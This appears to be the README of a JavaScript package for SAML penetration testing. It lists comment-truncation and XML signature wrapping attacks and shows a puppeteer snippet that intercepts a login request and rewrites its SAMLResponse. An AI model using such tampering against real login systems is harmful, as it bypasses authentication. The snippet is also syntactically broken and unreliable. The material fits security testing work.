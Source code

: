 # saml-attacks

Common saml attacks for penetration testing.

## Supported Attacks

- [ ] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

## Usage

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("saml-attacks");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
    let post_data = request.postData().;
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;
    
    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      },
  } else {
    await request.continue();
  });
})
```
